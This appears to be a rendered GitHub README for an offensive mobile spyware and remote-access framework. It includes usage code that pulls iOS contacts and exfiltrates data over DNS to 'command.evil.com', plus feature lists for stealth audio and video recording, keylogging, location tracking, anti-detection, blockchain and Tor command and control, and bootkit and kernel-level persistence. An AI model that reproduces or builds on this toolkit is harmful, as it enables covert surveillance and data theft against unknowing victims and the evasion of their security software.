 ```python
# Example Usage
from data_exfiltration.exfil_engine import DataExfiltrationEngine

exfil = DataExfiltrationEngine()
contacts = await exfil.extract_ios_contacts("/path/to/AddressBook.sqlitedb")
await exfil.exfiltrate_via_dns(data, "command.evil.com")
```

### 3. Real-Time Surveillance Engine

#### Surveillance Capabilities
- **Audio Recording**: High-quality microphone capture
- **Video Surveillance**: Camera access and recording
- **Screen Capture**: Real-time screenshot collection
- **Keylogging**: Keystroke monitoring and logging
- **Location Tracking**: GPS coordinate collection
- **Network Monitoring**: Traffic analysis and interception

#### Stealth Features
- **Background Operation**: Invisible to user
- **Resource Optimization**: Minimal battery/CPU impact
- **Anti-Detection**: Evasion of security software
- **Encrypted Storage**: Secure data collection

```python
# Example Usage
from surveillance.realtime_monitor import RealtimeSurveillanceEngine

surveillance = RealtimeSurveillanceEngine()
audio_session = await surveillance.start_audio_recording(duration=300, stealth_mode=True)
video_session = await surveillance.start_video_capture(resolution="1080p", stealth_mode=True)
```

### 4. Blockchain C2 Infrastructure

#### Decentralized Command & Control
- **Bitcoin Blockchain**: Transaction-based commands
- **Ethereum Smart Contracts**: Programmable C2 logic
- **Monero Privacy**: Anonymous communication
- **IPFS Integration**: Distributed file storage
- **Tor Network**: Anonymous routing

#### Encryption & Security
- **AES-256 Encryption**: Military-grade data protection
- **ChaCha20 Cipher**: High-performance encryption
- **RSA-4096 Keys**: Asymmetric cryptography
- **Steganography**: Hidden message embedding

### 5. Advanced Persistence Engine

#### Kernel-Level Persistence
- **Syscall Hooking**: Deep system integration
- **Bootkit Installation**: Boot-time persistence
- **Driver Injection**: Kernel module loading
- **Registry Manipulation**: Windows persistence
- **LaunchDaemon**: macOS persistence
- **Init Scripts**: Linux persistence
